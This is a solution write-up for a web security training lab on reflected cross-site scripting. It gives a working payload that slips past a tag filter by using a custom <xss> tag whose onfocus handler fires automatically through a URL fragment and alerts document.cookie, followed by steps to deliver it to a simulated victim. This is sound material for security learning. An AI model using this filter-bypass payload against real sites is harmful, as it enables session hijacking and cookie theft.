




# Lab 6: Reflected XSS into HTML context with all tags blocked except custom ones

This lab **blocks all standard HTML tags except custom ones**.

Your goal is to **inject a custom HTML tag** that triggers a cross-site scripting attack and automatically alerts the `document.cookie`.

---

### 🎯 **Solution**







1. Navigate to the **exploit server** and paste the following payload into the code area, replacing `YOUR-LAB-ID` with your actual lab ID:

```html
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>

```

1. Click **"Store"** to save the payload.
2. Then click **"Deliver exploit to victim"** to send the malicious link.





---

### 🛠️ **How it works**

- The payload injects a **custom tag `<xss>`** with an `id="x"`.
- The tag has an `onfocus` event handler that triggers `alert(document.cookie)`.
- The URL fragment (`#x`) automatically focuses this element when the victim loads the page.
- This triggers the `onfocus` event, resulting in the alert showing the cookie.

---

### 🎥 **Community Solution Video**

▶️ [Watch on YouTube](https://youtu.be/sjs6RS7lURk)